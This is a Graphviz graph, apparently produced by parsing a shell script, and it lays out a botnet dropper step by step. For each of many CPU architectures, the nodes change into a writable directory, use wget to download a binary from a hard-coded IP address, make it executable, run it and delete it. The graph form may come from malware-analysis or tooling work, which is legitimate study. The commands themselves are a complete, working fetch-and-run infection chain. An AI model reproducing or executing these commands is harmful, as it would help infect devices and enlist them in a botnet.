 digraph {
288 [label="cd /tmp "];
288 -> 288
290 [label="cd /var/run "];
290 -> 292 [label="||,"];
292 [label="cd /mnt "];
292 -> 294 [label="||,"];
294 [label="cd /root "];
294 -> 296 [label="||,"];
296 [label="cd / "];
296 -> 10 [label="||,"];
10 [label="wget http://173.249.52.21/mips.fdfdsvgb "];
10 -> 12 [label=";,"];
12 [label="chmod +x mips.fdfdsvgb "];
12 -> 14 [label=";,"];
14 [label="./mips.fdfdsvgb "];
14 -> 16 [label=";,"];
16 [label="rm -rf mips.fdfdsvgb "];
16 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
290 [label="cd /var/run "];
290 -> 292 [label="||,"];
292 [label="cd /mnt "];
292 -> 294 [label="||,"];
294 [label="cd /root "];
294 -> 296 [label="||,"];
296 [label="cd / "];
296 -> 28 [label="||,"];
28 [label="wget http://173.249.52.21/mipsel.fdfdsvgb "];
28 -> 30 [label=";,"];
30 [label="chmod +x mipsel.fdfdsvgb "];
30 -> 32 [label=";,"];
32 [label="./mipsel.fdfdsvgb "];
32 -> 34 [label=";,"];
34 [label="rm -rf mipsel.fdfdsvgb "];
34 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
290 [label="cd /var/run "];
290 -> 292 [label="||,"];
292 [label="cd /mnt "];
292 -> 294 [label="||,"];
294 [label="cd /root "];
294 -> 296 [label="||,"];
296 [label="cd / "];
296 -> 46 [label="||,"];
46 [label="wget http://173.249.52.21/sh4.fdfdsvgb "];
46 -> 48 [label=";,"];
48 [label="chmod +x sh4.fdfdsvgb "];
48 -> 50 [label=";,"];
50 [label="./sh4.fdfdsvgb "];
50 -> 52 [label=";,"];
52 [label="rm -rf sh4.fdfdsvgb "];
52 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
290 [label="cd /var/run "];
290 -> 292 [label="||,"];
292 [label="cd /mnt "];
292 -> 294 [label="||,"];
294 [label="cd /root "];
294 -> 296 [label="||,"];
296 [label="cd / "];
296 -> 64 [label="||,"];
64 [label="wget http://173.249.52.21/x86_64.fdfdsvgb "];
64 -> 66 [label=";,"];
66 [label="chmod +x x86_64.fdfdsvgb "];
66 -> 68 [label=";,"];
68 [label="./x86_64.fdfdsvgb "];
68 -> 70 [label=";,"];
70 [label="rm -rf x86_64.fdfdsvgb "];
70 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
290 [label="cd /var/run "];
290 -> 292 [label="||,"];
292 [label="cd /mnt "];
292 -> 294 [label="||,"];
294 [label="cd /root "];
294 -> 296 [label="||,"];
296 [label="cd / "];
296 -> 82 [label="||,"];
82 [label="wget http://173.249.52.21/armv6l.fdfdsvgb "];
82 -> 84 [label=";,"];
84 [label="chmod +x armv6l.fdfdsvgb "];
84 -> 86 [label=";,"];
86 [label="./armv6l.fdfdsvgb "];
86 -> 88 [label=";,"];
88 [label="rm -rf armv6l.fdfdsvgb "];
88 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
290 [label="cd /var/run "];
290 -> 292 [label="||,"];
292 [label="cd /mnt "];
292 -> 294 [label="||,"];
294 [label="cd /root "];
294 -> 296 [label="||,"];
296 [label="cd / "];
296 -> 100 [label="||,"];
100 [label="wget http://173.249.52.21/i686.fdfdsvgb "];
100 -> 102 [label=";,"];
102 [label="chmod +x i686.fdfdsvgb "];
102 -> 104 [label=";,"];
104 [label="./i686.fdfdsvgb "];
104 -> 106 [label=";,"];
106 [label="rm -rf i686.fdfdsvgb "];
106 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
290 [label="cd /var/run "];
290 -> 292 [label="||,"];
292 [label="cd /mnt "];
292 -> 294 [label="||,"];
294 [label="cd /root "];
294 -> 296 [label="||,"];
296 [label="cd / "];
296 -> 118 [label="||,"];
118 [label="wget http://173.249.52.21/ppc.fdfdsvgb "];
118 -> 120 [label=";,"];
120 [label="chmod +x ppc.fdfdsvgb "];
120 -> 122 [label=";,"];
122 [label="./ppc.fdfdsvgb "];
122 -> 124 [label=";,"];
124 [label="rm -rf ppc.fdfdsvgb "];
124 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
290 [label="cd /var/run "];
290 -> 292 [label="||,"];
292 [label="cd /mnt "];
292 -> 294 [label="||,"];
294 [label="cd /root "];
294 -> 296 [label="||,"];
296 [label="cd / "];
296 -> 136 [label="||,"];
136 [label="wget http://173.249.52.21/i586.fdfdsvgb "];
136 -> 138 [label=";,"];
138 [label="chmod +x i586.fdfdsvgb "];
138 -> 140 [label=";,"];
140 [label="./i586.fdfdsvgb "];
140 -> 142 [label=";,"];
142 [label="rm -rf i586.fdfdsvgb "];
142 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
290 [label="cd /var/run "];
290 -> 292 [label="||,"];
292 [label="cd /mnt "];
292 -> 294 [label="||,"];
294 [label="cd /root "];
294 -> 296 [label="||,"];
296 [label="cd / "];
296 -> 154 [label="||,"];
154 [label="wget http://173.249.52.21/m68k.fdfdsvgb "];
154 -> 156 [label=";,"];
156 [label="chmod +x m68k.fdfdsvgb "];
156 -> 158 [label=";,"];
158 [label="./m68k.fdfdsvgb "];
158 -> 160 [label=";,"];
160 [label="rm -rf m68k.fdfdsvgb "];
160 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
290 [label="cd /var/run "];
290 -> 292 [label="||,"];
292 [label="cd /mnt "];
292 -> 294 [label="||,"];
294 [label="cd /root "];
294 -> 296 [label="||,"];
296 [label="cd / "];
296 -> 172 [label="||,"];
172 [label="wget http://173.249.52.21/sparc.fdfdsvgb "];
172 -> 174 [label=";,"];
174 [label="chmod +x sparc.fdfdsvgb "];
174 -> 176 [label=";,"];
176 [label="./sparc.fdfdsvgb "];
176 -> 178 [label=";,"];
178 [label="rm -rf sparc.fdfdsvgb "];
178 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
290 [label="cd /var/run "];
290 -> 292 [label="||,"];
292 [label="cd /mnt "];
292 -> 294 [label="||,"];
294 [label="cd /root "];
294 -> 296 [label="||,"];
296 [label="cd / "];
296 -> 190 [label="||,"];
190 [label="wget http://173.249.52.21/armv4l.fdfdsvgb "];
190 -> 192 [label=";,"];
192 [label="chmod +x armv4l.fdfdsvgb "];
192 -> 194 [label=";,"];
194 [label="./armv4l.fdfdsvgb "];
194 -> 196 [label=";,"];
196 [label="rm -rf armv4l.fdfdsvgb "];
196 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
290 [label="cd /var/run "];
290 -> 292 [label="||,"];
292 [label="cd /mnt "];
292 -> 294 [label="||,"];
294 [label="cd /root "];
294 -> 296 [label="||,"];
296 [label="cd / "];
296 -> 208 [label="||,"];
208 [label="wget http://173.249.52.21/armv5l.fdfdsvgb "];
208 -> 210 [label=";,"];
210 [label="chmod +x armv5l.fdfdsvgb "];
210 -> 212 [label=";,"];
212 [label="./armv5l.fdfdsvgb "];
212 -> 214 [label=";,"];
214 [label="rm -rf armv5l.fdfdsvgb "];
214 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
290 [label="cd /var/run "];
290 -> 292 [label="||,"];
292 [label="cd /mnt "];
292 -> 294 [label="||,"];
294 [label="cd /root "];
294 -> 296 [label="||,"];
296 [label="cd / "];
296 -> 226 [label="||,"];
226 [label="wget http://173.249.52.21/powerpc.fdfdsvgb "];
226 -> 228 [label=";,"];
228 [label="chmod +x powerpc.fdfdsvgb "];
228 -> 230 [label=";,"];
230 [label="./powerpc.fdfdsvgb "];
230 -> 232 [label=";,"];
232 [label="rm -rf powerpc.fdfdsvgb "];
232 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
290 [label="cd /var/run "];
290 -> 292 [label="||,"];
292 [label="cd /mnt "];
292 -> 294 [label="||,"];
294 [label="cd /root "];
294 -> 296 [label="||,"];
296 [label="cd / "];
296 -> 244 [label="||,"];
244 [label="wget http://173.249.52.21/mips64.fdfdsvgb "];
244 -> 246 [label=";,"];
246 [label="chmod +x mips64.fdfdsvgb "];
246 -> 248 [label=";,"];
248 [label="./mips64.fdfdsvgb "];
248 -> 250 [label=";,"];
250 [label="rm -rf mips64.fdfdsvgb "];
250 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
290 [label="cd /var/run "];
290 -> 292 [label="||,"];
292 [label="cd /mnt "];
292 -> 294 [label="||,"];
294 [label="cd /root "];
294 -> 296 [label="||,"];
296 [label="cd / "];
296 -> 262 [label="||,"];
262 [label="wget http://173.249.52.21/armv4eb.fdfdsvgb "];
262 -> 264 [label=";,"];
264 [label="chmod +x armv4eb.fdfdsvgb "];
264 -> 266 [label=";,"];
266 [label="./armv4eb.fdfdsvgb "];
266 -> 268 [label=";,"];
268 [label="rm -rf armv4eb.fdfdsvgb "];
268 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
290 [label="cd /var/run "];
290 -> 292 [label="||,"];
292 [label="cd /mnt "];
292 -> 294 [label="||,"];
294 [label="cd /root "];
294 -> 296 [label="||,"];
296 [label="cd / "];
296 -> 280 [label="||,"];
280 [label="wget http://173.249.52.21/armv4tl.fdfdsvgb "];
280 -> 282 [label=";,"];
282 [label="chmod +x armv4tl.fdfdsvgb "];
282 -> 284 [label=";,"];
284 [label="./armv4tl.fdfdsvgb "];
284 -> 286 [label=";,"];
286 [label="rm -rf armv4tl.fdfdsvgb "];
286 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
290 [label="cd /var/run "];
290 -> 292 [label="||,"];
292 [label="cd /mnt "];
292 -> 294 [label="||,"];
294 [label="cd /root "];
294 -> 296 [label="||,"];
296 [label="cd / "];
296 -> 298 [label="||,"];
298 [label="wget http://173.249.52.21/arm7.fdfdsvgb "];
298 -> 300 [label=";,"];
300 [label="chmod +x arm7.fdfdsvgb "];
300 -> 302 [label=";,"];
302 [label="./arm7.fdfdsvgb "];
302 -> 303 [label=";,"];
}
